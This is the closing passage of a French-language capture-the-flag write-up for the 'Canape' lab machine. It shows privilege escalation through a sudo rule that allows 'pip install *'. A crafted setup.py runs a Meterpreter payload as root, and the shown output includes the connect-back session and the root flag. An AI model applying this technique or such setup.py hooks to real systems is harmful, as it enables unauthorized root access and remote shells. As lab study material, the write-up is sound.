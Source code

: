 Essentiellement c'est juste le pass SSH qui nous intéresse et permet alors de récupérer le compte homer et (enfin) son flag (*bce918696f293e62b2321703bb27288d*).  

La suite est assez classique avec une entrée sudo à exploiter :  

```plain
homer@canape:~$ sudo -l
[sudo] password for homer:
Matching Defaults entries for homer on canape:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User homer may run the following commands on canape:
    (root) /usr/bin/pip install *
```

[Une recherche rapide](https://groups.google.com/forum/#!msg/python-virtualenv/Z11FHJDYKEk/fnaQELGXCPoJ) nous indique que l'on peut spécifier un package local avec l'option -e qui doit correspondre à un dossier contenant un *setup.py*.  

Il suffit de créer un *setup.py* qui réutilise notre *Meterpreter* :  

```plain
homer@canape:~/.devloop$ cat mypackage/setup.py
import os
os.system("/tmp/devloop_meterpreter")
homer@canape:~/.devloop$ sudo pip install -e mypackage
The directory '/home/homer/.cache/pip/http' or its parent directory is not owned by the current user and the cache has been disabled. Please check the permissions and owner of that directory. If executing pip with sudo, you may want sudo's -H flag.
The directory '/home/homer/.cache/pip' or its parent directory is not owned by the current user and caching wheels has been disabled. check the permissions and owner of that directory. If executing pip with sudo, you may want sudo's -H flag.
Obtaining file:///home/homer/.devloop/mypackage
No files/directories in /home/homer/.devloop/mypackage (from PKG-INFO)
```

Et pendant ce temps là à une demi-heure de route de chez *Léonard de Vinci* :  

```plain
msf exploit(multi/handler) > [*] Sending stage (816260 bytes) to 10.10.10.70
[*] Meterpreter session 4 opened (10.10.14.13:443 -> 10.10.10.70:34618) at 2018-08-27 14:45:20 +0200
msf exploit(multi/handler) > sessions -i 4
[*] Starting interaction with 4...

meterpreter > shell
Process 4987 created.
Channel 1 created.
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
ls
root.txt
cat root.txt
928c3df1a12d7f67d2e8c2937120976d
```

Spider-cochon
-------------

Ce CTF me laisse un souvenir impérissable avec cette \*\*\*\*\*\* d'option de CouchDB :D  

Pour le reste c'était sympa d'exploiter les subtilités du script Flask :)

*Published September 15 2018 at 18 08*